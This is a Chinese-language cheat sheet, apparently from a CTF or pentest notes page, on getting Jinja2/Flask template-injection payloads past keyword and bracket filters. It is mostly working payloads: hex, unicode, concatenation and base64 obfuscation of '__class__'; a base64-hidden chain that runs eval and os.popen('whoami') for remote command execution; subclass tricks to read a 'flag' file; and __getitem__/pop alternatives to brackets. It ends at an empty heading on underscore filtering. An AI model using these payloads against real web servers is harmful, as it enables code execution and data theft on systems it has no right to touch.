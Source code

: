 ## 过滤关键字

绕过对双引号里关键字的限制，比如{{''.__class__}}，如果过滤_或class关键字

1. 16进制编码  
    {{''.__class__}}等价于{{''["__class__"]}}，所以可以将其中关键字编码或者部分编码，如

```python
{{''["\x5f\x5f\x63las\x73\x5f\x5f"]}}
```

2. 使用unicode编码（适用于Flask

```python
{{''["\u005f\u005fclas\u0073\u005f\u005f"]}}
```

3. 使用字符串拼接、引号绕过，在Jinjia2中加号可以省略

```python
{{''["__clas"+"s__"]}}
{{''["__clas""s__"]}}
```

4. 使用base64编码（适用于Python2）

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3Blbigid2hvYW1pIikucmVhZCgp'.decode('base64'))}}
```

5. 使用join()函数绕过，比如过滤了flag关键字

```python
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```

## 过滤中括号

1. 使用__getitem__函数即可，它的作用是从__getitem__(i)等价于[i]获取第i个元素，因此可以替换，如

```python
{{''.__class__.__mro__.__getitem__(1)}}
```

2. 使用pop函数也可以

```python
{{''.__class__.__mro__.__getitem__(1).__subclasses__().pop(80)}}
```

3. 使用.来访问

```python
{{''.__class__.__mro__.__getitem__(1).__subclasses__()[80].__init__.__globals__.__builtins__}}
```

## 过滤下划线
